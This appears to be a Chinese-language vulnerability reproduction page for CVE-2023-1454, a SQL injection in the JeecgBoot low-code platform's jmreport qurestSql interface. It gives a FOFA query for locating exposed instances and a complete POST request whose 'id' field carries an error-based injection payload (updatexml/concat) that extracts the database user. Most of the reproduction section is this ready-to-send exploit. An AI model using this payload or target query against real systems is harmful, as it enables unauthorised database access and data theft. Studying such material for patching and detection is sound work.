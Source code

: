 # JeecgBoot 企业级低代码平台 qurestSql SQL注入漏洞 CVE-2023-1454

## 漏洞描述

JeecgBoot 企业级低代码平台 qurestSql接口存在 SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库中的敏感数据，进一步攻击

## 漏洞影响

JeecgBoot 企业级低代码平台

## FOFA

```
app="JeecgBoot-企业级低代码平台"
```

## 漏洞复现

登陆页面

![image-20230504140737296](images/image-20230504140737296.png)

验证POC

```
POST /jeecg-boot/jmreport/qurestSql HTTP/1.1
Content-Type: application/json

{"apiSelectId":"1290104038414721025",
"id":"1' or '%1%' like (updatexml(0x3a,concat(1,(select current_user)),1)) or '%%' like '"}
```

![image-20230504140757639](images/image-20230504140757639.png)